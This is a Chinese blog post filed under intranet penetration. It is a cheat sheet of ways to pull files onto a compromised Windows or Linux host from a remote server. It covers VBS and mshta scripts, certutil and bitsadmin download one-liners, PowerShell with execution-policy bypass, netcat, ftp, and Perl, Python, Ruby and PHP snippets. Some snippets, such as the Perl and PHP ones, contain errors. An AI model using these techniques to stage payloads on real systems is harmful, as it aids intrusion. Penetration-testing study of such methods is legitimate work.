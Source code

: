 ```yaml
---
title: "下载文件的几种方式"
date: 2018-08-14T00:00:00+08:00
draft: false
tags: ['download']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


Linux 下载文件的方式很多, 一般系统自带的 curl wget 就能搞定, 甚至还可以直接在线 apt yum 安装, 也有很多环境例如 Python Ruby Perl

Windows 就那么几个, 除了 vbs 和 powershell 以外大都是依赖于 microsoft 官方自带的命令行工具.

<!--more-->

## vbs

经典的 `iget.vbs`, 需要一行一行 echo 写.

```
iLocal=LCase(Wscript.Arguments(1))
iRemote=LCase(Wscript.Arguments(0))
Set xPost=createObject("Microsoft.XMLHTTP")
xPost.Open "GET",iRemote,0
xPost.Send()
set sGet=createObject("ADODB.Stream")
sGet.Mode=3
sGet.Type=1
sGet.Open()
sGet.Write xPost.ResponseBody
sGet.SaveToFile iLocal,2
```

执行方式

`cscript //nologo iget.vbs http://192.168.1.100/test.txt C:\test.txt`

也可以把 `Wscript.Arguments` 直接替换成 url.

## telnet

前提是机器要支持 telnet

```
server: nc -lvp 2333 < test.txt
client: telnet example.com -f C:\test.txt
```

## ftp

`1.txt`

```
open 192.168.1.100
username
password
bin
lcd c:/
get test.txt
bye
```

`ftp -s:"C:\1.txt"`

## mshta

hta 执行, 其实还是依赖于 vbs

```
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.1.100/test.txt",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test.txt", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>
</html>
```

执行方式

`mshta test.hta`

## certutil

windows 2003 下的应用程序.

执行方式

```
certutil -urlcache -split -f http://192.168.1.100/test.txt C:\test.txt
certutil -urlcache -split -f http://192.168.1.100/test.txt C:\test.txt delete
```

## bitsadmin

和 certutil 一样, 但只适用于 windows 7 以上的系统.

```
bitsadmin /rawreturn /transfer getfile http://192.168.1.100/test.txt C:\test.txt
```

## powershell

以下内容保存为 `get.ps1`

```
$client = new-object System.Net.WebClient
$client.DownloadFile('http://192.168.1.100/test.txt', 'C:\test.txt')
```

执行方式

```
powershell -ExecutionPolicy Bypass -File .\get.ps1
```

powershell 3.0 提供了  `Invoke-WebRequest` 方法.

需要绝对路径.

```
Invoke-WebRequest -Uri http://192.168.1.100/test.txt -OutFile C:\test.txt
```

或者一句话执行.

```
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.100/test.txt','C:\test.txt')
```

## wget

```
wget http://192.168.1.100/test.txt -P /root/test.txt
```

## ftp

`1.sh`

```
ftp 192.168.1.100
username
password
get test.txt
exit
```

执行方式.

`bash 1.sh`

或者.

`ftpget -u username -P password 192.168.1.100 test.txt`

## nc

```
cat test.txt | nc -l 1234
nc 192.168.1.100 1234 > test.txt
```

## perl

```
#!/usr/bin/perl
use LWP::Simple
getstore("http://192.168.1.100/test.txt "/root/test.txt");
```

## python

```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://192.168.1.100/test.txt')
localFile = open('/root/test.txt', 'wb+')
localFile.write(u.read())
localFile.close()
```

## ruby

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("192.168.1.100") { |http|
r = http.get("/test.txt")
open("/root/test.txt", "wb+") { |file|
file.write(r.body)
}
}
```

## php

```
<?php
file_put_contents(file_get_contents('http://192.168.1.100/test.txt'), '/root/test.txt');
?>
```